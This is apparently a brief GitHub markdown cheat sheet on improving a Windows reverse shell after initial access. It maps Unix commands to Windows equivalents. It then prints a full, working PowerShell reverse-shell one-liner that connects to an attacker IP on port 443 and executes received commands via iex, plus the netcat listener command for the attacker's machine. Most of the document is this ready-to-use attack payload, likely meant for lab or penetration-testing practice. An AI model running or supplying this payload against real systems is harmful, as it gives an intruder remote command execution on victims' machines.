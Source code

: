 # Fixing Limited Windows Reverse Shell Commands

## 📌 Issue
After obtaining a Windows reverse shell, you may notice:
- `whoami` works, but `ls`, `cd`, and `id` do not.
- Commands do not behave interactively.

- Use alternatives:
  -   ls -> dir
  -   id -> whoami /user
  -   pwd -> echo %cd%


## 🛠️ Solutions

### ✅ 1. Use a PowerShell Reverse Shell
PowerShell provides a fully interactive shell.

On the Target (Windows), execute:
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.45.227',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
On the Attacker Machine (Kali/Linux), start a listener:

```
nc -lvnp 443
```
